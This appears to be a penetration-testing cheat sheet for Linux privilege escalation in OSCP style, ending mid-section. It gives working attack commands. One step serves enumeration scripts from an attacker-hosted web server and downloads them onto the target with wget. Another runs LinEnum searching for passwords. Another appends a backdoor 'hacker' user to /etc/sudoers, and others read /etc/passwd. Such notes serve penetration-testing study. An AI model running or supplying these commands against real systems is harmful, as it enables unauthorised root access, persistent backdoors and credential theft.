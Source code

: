 /bin/dash


### Access to more binaries

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

### Set up webserver

cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

### Download all files

wget http://192.168.1.101:8080/ -r; mv 192.168.1.101:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py 

unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt

python linprivchecker.py extended

./unix-privesc-check standard


### Writable directories

/tmp

/var/tmp


### Add user to sudoers

echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers


### Basic info

- OS:
- Version:
- Kernel version:
- Architecture:
- Current user:

**Devtools:**
- GCC:
- NC:
- WGET:

**Users with login:**

grep -vE "nologin" /etc/passwd


#### What's the OS? What version? What architecture?

•	cat /etc/*-release
